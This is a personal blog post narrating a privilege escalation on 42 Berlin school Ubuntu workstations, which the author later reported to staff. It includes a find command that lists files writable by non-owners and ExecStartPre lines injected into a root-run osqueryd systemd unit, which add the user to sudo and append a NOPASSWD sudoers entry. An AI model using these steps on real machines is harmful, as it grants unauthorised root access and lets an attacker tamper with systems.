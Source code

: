 ```yaml
---
layout: post
title: "Privilege escalation at 42 Berlin"
---
```

### _Climbing in Berlin_

<img src="{{ site.baseurl }}/images/pwned.webp" alt="Image" width="300" height="auto">

> I arrived to [school](https://42berlin.de/) on a sunday morning, and our Ubuntu installation was acting up. 
Firefox wouldn't start, vscode either. And so my morning started

  It was early morning, and already I had issues with our workstations. Naturally, we do not have admin privileges at school... _Unless we do_

_Hacking_ or trying to find vulnerabilities at 42 School's, its encouraged and rewarded, but my previous attempts had been fruitless when it was
_just for fun_. But this time, It was personal.
I was in a hurry to get my project done and lately the old storage system we had at that time was making the machines unresponsive at times.


> Can you hack my ex's facebook account?

We usually think of exploits as complex and niche, things only _real_ hackers know how to spot
by reading the memory of a running system in plain hexadecimal values.
But most times, a simple error on a single text file permission, is enough to spread mayhem and chaos to
a whole system.

<br>
_( In this case all the 42 Schools worldwide that used the same Ubuntu recipe)_


---

<br>

### _Getting there_


> Repeated my usual routine of checking recent kernel exploits POCs matching ours, GetTheF*ckOut Bins, suid bins...

Nothing, I just needed my bookmarts with all the links for the C project I was working on at the time, and vscode just because I still
didn't know how to use ```git mergetool``` inside neovim properly yet, and needed to solve some conflicts.

> I will find you


Suddenly I came accross a [good list of find commands](https://github.com/sujayadkesar/Linux-Privilege-Escalation?tab=readme-ov-file#writable-files)
to search for files with specific permissions.


```bash

find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null

```
<br>

Find all the files that I'm not an owner of, and can be written into by my user.


One of the most interesting files I see it's a .service file, so a systemd daemon. Huh! I'm familiar with services :-)
<br>

`/usr/lib/systemd/system/osqueryd.service`

When I glance into it, *Big* surprise, 

```bash
User=root
Group=root
```

<br>

[osquery service](https://www.osquery.io/) runs as ```root``` at boot and its writeable by my user...

So I proceed with the most logical step, adding my user to the sudoers file

<br>
```bash
[Service]
TimeoutStartSec=0
EnvironmentFile=/etc/default/osqueryd
ExecStartPre=/bin/sh -c "usermod -aG sudo ccattano"
ExecStartPre=/bin/sh -c "echo 'ccattano   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers"
```
_showing most relevant parts of the file only_

<br>
Then by the next boot, the system's sudoers file would have my user appended with the same permissions as root/bocal

```bash
root	 ALL=(ALL) ALL
bocal    ALL=(ALL) NOPASSWD: ALL
ccattano ALL=(ALL) NOPASSWD: ALL
```

<br>

---

<br>

### _Leaving as a gentleman_


> I'm in

<img src="{{ site.baseurl }}/images/imin.png" alt="Image" width="400" height="auto" />

<br>

I proceeded to fix Firefox, vscode and leaving a mark on the login background wallpaper. 

Contacted the school's staff to report the vulnerability.

> hearts for you, [stars](https://github.com/CarloCattano?tab=repositories&q=&type=public&language=&sort=) for me

<img src="{{ site.baseurl }}/images/washere.jpg" alt="Image" width="400" height="auto">

_It has been more than 1.5 years since I found it in June 2023. which has given the 42 network time enough to fix the vulnerability_


